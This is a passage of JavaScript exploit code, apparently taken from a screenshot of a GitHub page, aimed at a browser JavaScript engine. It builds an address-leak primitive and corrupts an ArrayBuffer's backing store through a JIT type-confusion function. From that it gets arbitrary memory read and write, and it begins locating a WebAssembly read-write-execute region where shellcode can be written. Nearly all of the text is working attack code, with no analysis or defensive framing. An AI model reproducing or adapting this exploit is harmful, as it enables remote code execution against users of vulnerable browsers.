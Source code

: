 ```javascript
		let leakAddr = hax(objs);
		if(leakAddr !== 23.33){
			return f2i(leakAddr) - 1;
		}
	}
	throw "addrOf failed!";
}

var data_buf = new ArrayBuffer(0x200);
var data_view = new DataView(data_buf);

function write_databuf(addr)
{
	eval(`
		function hax(o, addr){
			o.a;
			this.Object.create(o);
			o.p${p1}.x2 = addr; 
			return o.p${p1}.x1;
			
		}

	`);
	let p_Values = [];
	p_Values[p1] = {x1:23.33, x2: 33.44};
	p_Values[p2] = data_buf;
	
	for(let i=0; i < 10000; i++){
		p_Values[p1] = {x1:23.33, x2: 33.44};
		let objs = makeObj(p_Values);
		let x1 = hax(objs, i2f(addr));
		if(x1 !== 23.33){
			return;
		}
	}
	throw "write_databuf failed!";
}

//----- arbitrary read

function dataview_read64(addr)
{
	write_databuf(addr);
	return f2i(data_view.getFloat64(0, true));
}

//----- arbitrary write
function dataview_write(addr, payload)
{
	write_databuf(addr);
	for(let i=0; i < payload.length; i++)
	{
		data_view.setUint8(i, payload[i]);
	}
}

//-----  find wasm_code_rwx_addr 

var wasm_function_addr = addrOf(wasm_function);
console.log("[+] wasm_function_addr: 0x" + hex(wasm_function_addr));	

var wasm_shared_info = dataview_read64(wasm_function_addr + 0x18);
console.log("[+] find wasm_shared_info : 0x" + hex(wasm_shared_info));
```